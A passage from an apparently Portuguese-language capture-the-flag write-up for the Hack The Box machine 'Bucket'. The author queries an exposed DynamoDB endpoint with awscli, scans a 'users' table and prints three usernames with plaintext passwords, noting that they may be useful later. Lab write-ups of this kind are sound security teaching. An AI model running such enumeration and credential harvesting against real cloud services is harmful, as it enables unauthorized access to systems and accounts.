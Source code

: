 Lendo a documentação do `awscli` para o DynamoDB, executei algumas consultas simples para listar as tabelas e entradas existentes, conforme abaixo, onde pude obter alguns usuários e senhas que poderão ser úteis futuramente.

```bash
$ aws dynamodb list-tables \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb \
    --output json
{
  "TableNames": [
    "users"
  ]
}

$ aws dynamodb scan \
    --table-name users \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb \
    --output json
{
  "Items": [
    {
      "password": {
        "S": "Management@#1@#"
      },
      "username": {
        "S": "Mgmt"
      }
    },
    {
      "password": {
        "S": "Welcome123!"
      },
      "username": {
        "S": "Cloudadm"
      }
    },
    {
      "password": {
        "S": "n2vM-<_K_Q:.Aa2"
      },
      "username": {
        "S": "Sysadm"
      }
    }
  ],
  "Count": 3,
  "ScannedCount": 3,
  "ConsumedCapacity": null
}
```
